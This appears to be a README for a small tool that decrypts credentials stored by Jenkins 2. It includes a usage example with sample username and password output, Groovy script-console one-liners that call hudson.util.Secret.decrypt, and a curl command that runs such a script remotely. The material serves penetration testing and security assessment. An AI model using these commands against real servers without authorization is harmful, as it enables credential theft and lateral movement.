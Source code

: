 ## jenkins2-decrypt

Decrypt Jenkins 2 passwords and tokens - https://www.thesubtlety.com/post/2017-06-21-decrypting-jenkins2-credentials/

```
->%ruby decrypt_jenkins2.rb master.key hudson.util.Secret credentials.xml
admin:Password123
user1:SoSecret321
```

## Jenkins 1 Decrypt
https://github.com/tweksteen/jenkins-decrypt/blob/master/decrypt.py

## Console

### Decrypt credential
`println hudson.util.Secret.decrypt("EnCrypted\\Value+Here");`

### Decrypt API key
```
token = println hudson.util.Secret.decrypt("EnCrypted\\Value+Here");
println Util.getDigestOf(token);
```

### Curl
`curl -s --data-urlencode "script=println hudson.util.Secret.decrypt('encryptedval')" https://user:token@jenkins.local/scripText`
